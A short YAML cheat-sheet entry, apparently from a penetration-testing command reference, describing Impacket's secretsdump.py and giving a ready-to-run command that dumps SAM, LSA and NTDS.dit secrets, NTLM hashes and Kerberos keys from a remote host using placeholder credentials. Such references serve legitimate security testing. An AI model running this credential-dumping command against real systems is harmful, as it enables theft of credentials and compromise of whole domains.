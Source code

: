```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 secretsdump.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

